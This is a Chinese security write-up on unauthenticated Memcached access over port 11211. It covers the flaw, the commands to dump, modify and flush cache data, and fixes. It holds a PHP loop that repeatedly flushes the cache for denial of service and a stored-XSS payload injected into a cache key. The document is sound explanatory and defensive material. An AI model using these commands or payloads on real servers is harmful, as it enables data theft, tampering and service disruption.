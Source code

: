 # 0x00 漏洞描述
Memcache是临时数据存储服务，以key-value存储格式存储数据，通过将数据块存储在缓存中，可以提高网站的整体性能，这些数据通常是应用读取频繁的。正因为内存中数据的读取远远大于硬盘，因此可以用来加速应用的访问。但由于memcached安全设计缺陷，默认的 11211 端口不需要密码即可访问，攻击者可获取数据库中信息，造成严重的信息泄露。

# 0x01 漏洞危害
除memcached中数据可被直接读取泄漏和恶意修改外，由于memcached中的数据像正常网站用户访问提交变量一样会被后端代码处理，当处理代码存在缺陷时会再次导致不同类型的安全问题。

在处理前端用户直接输入的数据时一般会接受更多的安全校验，而从memcached中读取的数据则更容易被开发者认为是可信的，或者是已经通过安全校验的，因此更容易导致安全问题。

由此可见，导致的二次安全漏洞类型一般由memcached数据使用的位置的不同而不同，如：

1. 缓存数据未经过滤直接输出可导致XSS；
2. 缓存数据未经过滤代入拼接的SQL注入查询语句可导致SQL注入；
3. 缓存数据存储敏感信息（如：用户名、密码），可以通过读取操作直接泄漏；
4. 缓存数据未经过滤直接通过system()、eval()等函数处理可导致命令执行；
5. 缓存数据未经过滤直接在header()函数中输出，可导致CRLF漏洞（HTTP响应拆分）

# 0x02 基础memcache命令
## 1、连接memcache
```
telnet ip port
```

如下为未授权访问成功：

![image](https://user-images.githubusercontent.com/84888757/163748352-415b8be5-b49e-4498-9261-4f81ab064cd6.png)

## 2、统计项目
Stats items 命令只是详细说明 Memcache 创建的所有条目或数据块的统计信息。
一个items 可以被认为是实际key: value数据的slabs。

```
stats items
```

![image](https://user-images.githubusercontent.com/84888757/163748379-be59980d-3658-47b9-8954-10a43b49e544.png)

## 3、统计缓存转储信息
了解这些slabs并不能给我们提供太多信息。我们需要的是`key:value`，它实际上拥有所有的数据。使用 `stats cachedump < item: id >` < number of keys you want to query > 查询 slab (item)中存储的键的数量。
```
stats cachedump <item: id>
```
🌰 在这里我们查询slab中item number为12的所有key（0代表所有key）；
可以看到有一个名为hue的key，它使用了1000b的数据，它的过期时间为1633659176 s

![image](https://user-images.githubusercontent.com/84888757/163748554-1fb74113-dd3f-4873-af2f-6757ee12ff2d.png)

## 4、检索数据
使用key去获得value数据
```
get <key_name>
```

在这里，我们获得了关于键hue存储的数据的信息。
数字0表示它没有过期时间，1000表示字符串的长度。

![image](https://user-images.githubusercontent.com/84888757/163748666-644e7e45-d7b4-4211-9f84-7b087805162f.png)

## 5、添加、编辑、替换数据
```
# 添加key:value
a.>set mykey 0 0 11
b.>hello world

Syntax for set is:
set <keyname> <some_flag> <expiration_in_millseconds> <length_of_data_to_follow>
```

![image](https://user-images.githubusercontent.com/84888757/163748753-c87f662c-ccac-484f-bff3-5512a575bb0b.png)

![image](https://user-images.githubusercontent.com/84888757/163748771-3b784119-c875-4f65-ae1c-8ab9d4549efe.png)

![image](https://user-images.githubusercontent.com/84888757/163748788-ec1becba-1ca9-4a25-89ac-07f505c2ae8e.png)


## 6、清除数据
Memcache 服务允许使用简单的 flush 命令完全删除所有缓存的数据。它接受一个数字参数，该参数指示数据刷新的时间(以秒为单位)。
```
flush_all 1
```
下图显示了我们首先查询的key `name`。接下来，我们使用 `flush _ all 1` 命令，它指示 Memcache 在1秒后清除所有数据。

图自[memcache-exploit](http://niiconsulting.com/checkmate/2013/05/memcache-exploit/)

![image](https://user-images.githubusercontent.com/84888757/163748957-67ee91c3-5c84-431f-9722-ef96cc5fb0bb.png)

# 0x03 漏洞利用
## DOS攻击
🌰 假设某网站的主页正在访问一些数据，比如搜索结果最多或浏览次数最多的个人资料，这些数据的详细信息都存储在 Memcache。如果该数据持续刷新，那么从应用程序访问任何数据到 Memcache 的调用将导致异常被持续抛出，从而导致 DoS。
使用一个简单的 PHP 脚本，可以不断刷新数据，这将使 web 服务器处于忙碌状态(可能导致DOS攻击)。
```
$memcache = new Memcache;
$memcache->connect('127.0.0.1', 11211) or die ("Could not connect"); //connect to memcached server
$mydata = "i want to cache this line"; //your cacheble data
$memcache->set('key', $mydata, false, 100); //add it to memcached server
while(1){
  $memcache->flush();
  sleep(2);
}
```

## 其他利用思路
通过查看 Memcache 的key，你应该可以找到一些数据，这些数据被应用程序用来显示给最终用户，比如在选择框中显示国家列表，或者显示最多的结果等等。

然后数据可以在缓存中被修改，这样我们就可以成功地发起客户端攻击，比如XSS。

类似地，如果 Memcache 的数据被存储在数据库中，那么 SQL 注入也是有可能的。这取决于应用程序的逻辑结构、应用程序中的数据流等。

## Attack XSS Demo

来自[memcache-exploit](http://niiconsulting.com/checkmate/2013/05/memcache-exploit/)

下面是一个简单的应用程序，我在 Memcache 存储了一组名称以便检索回来显示。

![image](https://user-images.githubusercontent.com/84888757/163749727-0e1f72a9-ca3d-419c-9bc8-9317ed5c729e.png)
![image](https://user-images.githubusercontent.com/84888757/163749755-0bb491f2-3a71-405a-bed6-a382156c4112.png)

现在，尝试修改键名为payload:
```
> delete names
> set names 0 0 30
> "/><script>alert('XSS')</script>
> STORED
```

再次访问页面，收获存储型xss一枚

![image](https://user-images.githubusercontent.com/84888757/163749811-1424a24e-6cc1-478e-9ea2-706dde61560b.png)

# 0x04 修复方式
1. 将 Memcache 服务器绑定到一个特定的源 IP。
2. 不要在 DMZ 环境或者互联网上公开此服务。
3. 如果业务需求要求在因特网上公开服务，那么确保服务运行在防火墙之后，可以访问指定的 Source IP (主要是 web 服务器 IP)。

# 0x05 参考链接
- http://niiconsulting.com/checkmate/2013/05/memcache-exploit/

